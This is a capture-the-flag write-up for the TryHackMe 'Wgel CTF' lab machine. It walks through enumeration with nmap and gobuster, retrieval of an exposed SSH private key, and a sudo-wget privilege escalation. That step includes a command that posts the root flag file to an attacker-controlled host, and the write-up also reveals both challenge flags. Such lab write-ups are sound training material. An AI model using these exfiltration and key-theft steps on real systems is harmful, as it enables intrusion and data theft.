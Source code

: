 # Wgel CTF

> Platform: TryHackMe
>
> Created by: [MrSeth6797](https://tryhackme.com/p/MrSeth6797)
>
> Difficulty: Easy

## Enumeration

First of all, we will begin with the **Nmap**. Actually, you can just use a normal Nmap command, but here is my preferences.
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Wgel CTF]
└─$ nmap -sVSC <TARGET-IP> -T5 -Pn -n -vvv -oA wgelctfscan
Nmap scan report for <TARGET-IP>
Host is up, received user-set (0.26s latency).
Scanned at 2025-08-10 22:58:01 +08 for 18s
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCpgV7/18RfM9BJUBOcZI/eIARrxAgEeD062pw9L24Ulo5LbBeuFIv7hfRWE/kWUWdqHf082nfWKImTAHVMCeJudQbKtL1SBJYwdNo6QCQyHkHXslVb9CV1Ck3wgcje8zLbrml7OYpwBlumLVo2StfonQUKjfsKHhR+idd3/P5V3abActQLU8zB0a4m3TbsrZ9Hhs/QIjgsEdPsQEjCzvPHhTQCEywIpd/GGDXqfNPB0Yl/dQghTALyvf71EtmaX/fsPYTiCGDQAOYy3RvOitHQCf4XVvqEsgzLnUbqISGugF8ajO5iiY2GiZUUWVn4MVV1jVhfQ0kC3ybNrQvaVcXd
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDCxodQaK+2npyk3RZ1Z6S88i6lZp2kVWS6/f955mcgkYRrV1IMAVQ+jRd5sOKvoK8rflUPajKc9vY5Yhk2mPj8=
|   256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJhXt+ZEjzJRbb2rVnXOzdp5kDKb11LfddnkcyURkYke
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

From the **Nmap** results, looks like there's a port 80 open.
![img](webpage.png)

When viewing the **source page**, we found out, there is a user **Jessie** mentioned

Now try to **enumerate the web directory** of the page **using GoBuster**:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Wgel CTF]
└─$ gobuster dir -u http://<TARGET-IP>/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://<TARGET-IP>/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 11374]
/server-status        (Status: 403) [Size: 278]
/sitemap              (Status: 301) [Size: 316] [--> http://<TARGET-IP>/sitemap/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

When going to the **/sitemap** page, we found out that the page is using the Colorlib template.

![img](sitemap.png)

Try to **enumerate more** from the **/sitemap** directory.
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Wgel CTF]
└─$ gobuster dir -u http://<TARGET-IP>/sitemap/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://<TARGET-IP>/sitemap/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.ssh                 (Status: 301) [Size: 321] [--> http://<TARGET-IP>/sitemap/.ssh/]
/css                  (Status: 301) [Size: 320] [--> http://<TARGET-IP>/sitemap/css/]
/fonts                (Status: 301) [Size: 322] [--> http://<TARGET-IP>/sitemap/fonts/]
/images               (Status: 301) [Size: 323] [--> http://<TARGET-IP>/sitemap/images/]
/index.html           (Status: 200) [Size: 21080]
/js                   (Status: 301) [Size: 319] [--> http://<TARGET-IP>/sitemap/js/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

Looks like there is a **/.ssh** directory. Try to retrieve the private key.
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Wgel CTF]
└─$ wget http://<TARGET-IP>/sitemap/.ssh/id_rsa
```

## Exploitation

Now, try to **SSH** using the id_rsa file.
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Wgel CTF]
└─$ ssh jessie@<TARGET-IP> -i id_rsa
```

Try to find the user flag:
```
$ find / -name *.txt 2>/dev/null
.
.
.
/home/jessie/Documents/user_flag.txt
```

Retrieve the user flag:
```
$ cat /home/jessie/Documents/user_flag.txt
```

<details>
<summary><b>🏳️Flag: user_flag.txt</b></summary>
<b>057c67131c3d5e42dd5cd3075b198ff6</b>
</details><br>

## Privilege Escalation

Moving on to **escalate our privileges to root**. We need to find what can we leverage to spawn a privilege shell.

First we try to check with the **sudo permission** first
```
$ sudo -l
.
.
User jessie may run the following commands on CorpOne:
.
    (root) NOPASSWD: /usr/bin/wget
```

Here, we can try to retrieve the root flag. First, set netcat as listener on our attacker machine then post the root flag file using the **File Upload** command from [GTFOBins - wget](https://gtfobins.github.io/gtfobins/wget/).

```
$ sudo /usr/bin/wget --post-file=/root/root_flag.txt <ATTACKER-IP>:<ATTACKER-PORT>
```

Read the **root flag**:

![img](rootflag.png)

<details>
<summary><b>🏳️Flag: root_flag.txt</b></summary>
<b>b1b968b37519ad1daa6408188649263d</b>
</details><br>
